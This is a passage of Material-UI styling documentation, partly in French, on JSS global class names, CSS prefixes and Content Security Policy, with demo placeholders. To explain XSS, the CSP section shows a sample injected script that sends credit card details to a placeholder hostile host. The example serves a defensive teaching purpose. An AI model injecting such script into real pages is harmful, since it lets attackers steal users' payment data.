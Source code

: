 {{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## CSS global

### `jss-plugin-global`

The [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### Hybrid

You can also combine JSS generated class names with global ones.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## CSS prefixes

JSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/mui-org/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.

## Politique de sécurité du contenu (CSP)

### Qu'est-ce que le CSP et en quoi est-ce utile ?

Fondamentalement, CSP atténue les attaques XSS (Cross-Site Scripting) en obligeant les développeurs à ajouter aux listes blanches les sources de leurs ressources. Cette liste est renvoyée en tant qu'en-tête du serveur. Par exemple, disons que vous avez un site hébergé à ` https://example.com ` l'en-tête CSP ` default-src: 'self'; ` autorisera toutes les requêtes à destination de ` https://example.com/* ` et refusera tous les autres. Si une section de votre site Web est vulnérable au XSS dans laquelle une entrée d'utilisateur non échappée est affichée, un attaquant pourrait saisir quelque chose du genre :

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Cette vulnérabilité permettrait à l'attaquant d'exécuter n'importe quoi. Cependant, avec un en-tête CSP sécurisé, le navigateur ne chargera pas ce script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### Comment met-on en place un CSP?

Pour utiliser CSP avec Material-UI (et JSS), vous devez utiliser un "nonce". A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS a un [ excellent tutoriel ](https://github.com/cssinjs/jss/blob/master/docs/csp.md) comment y parvenir avec Express et React Helmet. Pour un aperçu de base, continuez à lire.
